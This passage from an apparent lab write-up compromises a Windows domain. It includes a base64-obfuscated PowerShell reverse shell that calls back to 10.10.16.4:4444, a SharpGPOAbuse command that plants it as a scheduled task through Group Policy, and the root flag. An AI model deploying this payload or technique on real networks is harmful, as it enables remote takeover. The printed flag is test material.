powershell -e JABzAD0AJwAxADAALgAxADAALgAxADYALgA0ADoANAA0ADQANAAnADsAJABpAD0AJwA3AGEAZQBiADEANgA3AGEALQBjAGUAZQA0ADkAZQA1ADEALQA1AGUANwA4ADIANAAwADgAJwA7ACQAcAA9ACcAaAB0AHQAcAA6AC8ALwAnADsAJAB2AD0ASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwAgAC0AVQByAGkAIAAkAHAAJABzAC8ANwBhAGUAYgAxADYANwBhACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAWAAtADgANwBjAGEALQA1ADUANgAzACIAPQAkAGkAfQA7AHcAaABpAGwAZQAgACgAJAB0AHIAdQBlACkAewAkAGMAPQAoAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAIAAtAFUAcgBpACAAJABwACQAcwAvAGMAZQBlADQAOQBlADUAMQAgAC0ASABlAGEAZABlAHIAcwAgAEAAewAiAFgALQA4ADcAYwBhAC0ANQA1ADYAMwAiAD0AJABpAH0AKQAuAEMAbwBuAHQAZQBuAHQAOwBpAGYAIAAoACQAYwAgAC0AbgBlACAAJwBOAG8AbgBlACcAKQAgAHsAJAByAD0AaQBlAHgAIAAkAGMAIAAtAEUAcgByAG8AcgBBAGMAdABpAG8AbgAgAFMAdABvAHAAIAAtAEUAcgByAG8AcgBWAGEAcgBpAGEAYgBsAGUAIABlADsAJAByAD0ATwB1AHQALQBTAHQAcgBpAG4AZwAgAC0ASQBuAHAAdQB0AE8AYgBqAGUAYwB0ACAAJAByADsAJAB0AD0ASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACQAcAAkAHMALwA1AGUANwA4ADIANAAwADgAIAAtAE0AZQB0AGgAbwBkACAAUABPAFMAVAAgAC0ASABlAGEAZABlAHIAcwAgAEAAewAiAFgALQA4ADcAYwBhAC0ANQA1ADYAMwAiAD0AJABpAH0AIAAtAEIAbwBkAHkAIAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAkAGUAKwAkAHIAKQAgAC0AagBvAGkAbgAgACcAIAAnACkAfQAgAHMAbABlAGUAcAAgADAALgA4AH0A    

```

Returning to our original SSH session, we must exploit the newly created GPO. We instruct SharpGPOAbuse
to create a scheduled task with a PowerShell payload and apply the GPOs

```bash
.\SharpGPOAbuse.exe --addcomputertask --gponame "0xdff" --author "0xdff" --taskname "RevShell" --command "powershell.exe" --arguments "powershell -e JABzAD0AJwAxADAALgAxADAALgAxADYALgA0ADoANAA0ADQANAAnADsAJABpAD0AJwA3AGEAZQBiADEANgA3AGEALQBjAGUAZQA0ADkAZQA1ADEALQA1AGUANwA4ADIANAAwADgAJwA7ACQAcAA9ACcAaAB0AHQAcAA6AC8ALwAnADsAJAB2AD0ASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwAgAC0AVQByAGkAIAAkAHAAJABzAC8ANwBhAGUAYgAxADYANwBhACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAWAAtADgANwBjAGEALQA1ADUANgAzACIAPQAkAGkAfQA7AHcAaABpAGwAZQAgACgAJAB0AHIAdQBlACkAewAkAGMAPQAoAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAIAAtAFUAcgBpACAAJABwACQAcwAvAGMAZQBlADQAOQBlADUAMQAgAC0ASABlAGEAZABlAHIAcwAgAEAAewAiAFgALQA4ADcAYwBhAC0ANQA1ADYAMwAiAD0AJABpAH0AKQAuAEMAbwBuAHQAZQBuAHQAOwBpAGYAIAAoACQAYwAgAC0AbgBlACAAJwBOAG8AbgBlACcAKQAgAHsAJAByAD0AaQBlAHgAIAAkAGMAIAAtAEUAcgByAG8AcgBBAGMAdABpAG8AbgAgAFMAdABvAHAAIAAtAEUAcgByAG8AcgBWAGEAcgBpAGEAYgBsAGUAIABlADsAJAByAD0ATwB1AHQALQBTAHQAcgBpAG4AZwAgAC0ASQBuAHAAdQB0AE8AYgBqAGUAYwB0ACAAJAByADsAJAB0AD0ASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACQAcAAkAHMALwA1AGUANwA4ADIANAAwADgAIAAtAE0AZQB0AGgAbwBkACAAUABPAFMAVAAgAC0ASABlAGEAZABlAHIAcwAgAEAAewAiAFgALQA4ADcAYwBhAC0ANQA1ADYAMwAiAD0AJABpAH0AIAAtAEIAbwBkAHkAIAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAkAGUAKwAkAHIAKQAgAC0AagBvAGkAbgAgACcAIAAnACkAfQAgAHMAbABlAGUAcAAgADAALgA4AH0A"   

```

Then we update the GPOs.

```bash
PS C:\Users\M.SchoolBus\Desktop> gpupdate /force                                                                                                                                         
```

As soon as we have updated the GPOs, we will check our listener and have a shell.
We have successfully compromised the target and the root flag can be found in
C:\User\Administrator\Desktop\root.txt .

```bash
PS C:\users\Administrator > cd desktop
PS C:\users\Administrator\desktop > type root.txt
029a38a78b1a6af06f48b9a6d5b7bacb
```
